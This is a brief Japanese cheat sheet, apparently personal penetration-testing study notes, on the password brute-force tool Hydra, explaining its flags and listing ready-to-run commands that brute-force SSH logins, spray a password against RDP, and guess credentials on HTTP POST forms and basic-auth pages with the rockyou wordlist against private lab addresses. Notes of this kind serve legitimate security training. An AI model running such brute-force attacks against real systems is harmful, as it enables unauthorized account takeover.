 # hydra
[Documentation](https://github.com/vanhauser-thc/thc-hydra)

## 概要
C言語ベースのパスワードブルートフォース用のツール

## コマンド集

-l => 単一のユーザ名を指定  
-P => パスワードのワードリストを指定  
-s => ポートを指定  
-L => ユーザ名のリストを指定(複数のユーザ名を指定)  

例
```
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
```

```
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```

POSTを要求するエンドポイントで実行するコマンド
```
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:rm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

basic認証でGETリクエストをブルートフォースすることもできる
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 80 -f 192.168.221.201 http-get 
```
